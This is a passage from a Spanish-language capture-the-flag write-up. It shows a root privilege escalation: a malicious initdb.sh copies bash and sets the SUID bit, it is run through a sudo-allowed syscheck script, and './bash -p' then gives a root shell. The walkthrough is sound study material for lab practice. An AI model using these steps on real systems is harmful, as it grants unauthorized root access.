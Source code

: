 Buscamos el archivo `initdb.sh`, pero no la encontraremos. Asi que crearemos uno con un contenido malicioso en el cual copiaremos el binario de la `bash` y daremos permiso de `SUID` 

```python
echo "cp /usr/bin/bash bash; chmod +s /tmp/tmp.NWmiRzM84i/bash"  > initdb.sh
```

Luego ejecutaremos con `sudo`

```python
sudo /usr/bin/syscheck
```

Para asi obtener un binario bash con permiso de `SUID` 

![20240324001812.png](20240324001812.png)

## Usuario - root

Haciendo uso de `./bash -p` deberíamos de obtener una shell como usuario root

![20240324004131.png](20240324004131.png)

